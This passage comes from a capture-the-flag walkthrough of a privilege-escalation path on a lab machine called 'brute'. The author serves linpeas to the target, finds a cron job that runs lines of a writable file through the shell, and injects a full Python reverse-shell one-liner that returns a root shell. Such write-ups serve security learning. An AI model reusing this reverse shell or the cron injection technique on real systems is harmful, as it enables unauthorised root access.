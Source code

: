 ```
ajread@aj-ubuntu:~/resources/peas$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
[REMOTE IP] - - [05/Nov/2022 20:48:04] "GET /linpeas.sh HTTP/1.1" 200 -
```
I then executed linpeas within the temp folder and saved the output to a file.
```
adrian@brute:/tmp$ ./linpeas.sh -a > linpeas_output.txt
```
There is an interesting file within the home directory of the adrian user that looks like a punch card where it echoes the date to a file. 
```
adrian@brute:~$ cat punch_in.sh 
#!/bin/bash

/usr/bin/echo 'Punched in at '$(/usr/bin/date +"%H:%M") >> /home/adrian/punch_in
```
It looks like root executes the bash script called ```punch_in.sh``` to write to ```punch_in``` every minute. 
```
adrian@brute:~$ crontab -l
# Edit this file to introduce tasks to be run by cron.
# 
# Each task to run has to be defined through a single line
# indicating with different fields when the task will be run
# and what command to run for the task
# 
# To define the time you can provide concrete values for
# minute (m), hour (h), day of month (dom), month (mon),
# and day of week (dow) or use '*' in these fields (for 'any').
# 
# Notice that tasks will be started based on the cron's system
# daemon's notion of time and timezones.
# 
# Output of the crontab jobs (including errors) is sent through
# email to the user the crontab file belongs to (unless redirected).
# 
# For example, you can run a backup of all your user accounts
# at 5 a.m every week with:
# 0 5 * * 1 tar -zcf /var/backups/home.tgz /home/
# 
# For more information see the manual pages of crontab(5) and cron(8)
# 
# m h  dom mon dow   command

*/1 * * * * /usr/bin/bash /home/adrian/punch_in.sh
```
There was also the script file within the ftp folder that shows that the user, adrian, executes each line of ```punch_in``` as well. As user adrian, I was able to write to the ```punch_in``` file, which can allow me to execute something as root. 
```
adrian@brute:~/ftp/files$ cat script 
#!/bin/sh
while read line;
do
  /usr/bin/sh -c "echo $line";
done < /home/adrian/punch_in
```
All I needed to do was write to the ```punch_in``` file with a reverse shell and it would execute. So, I set up a reverse shell in python3 and placed it in the ```punch_in``` file. 
```
`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[LOCAL IP]",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'`
```
I started a listener on the port for the reverse shell and got a call back as root. 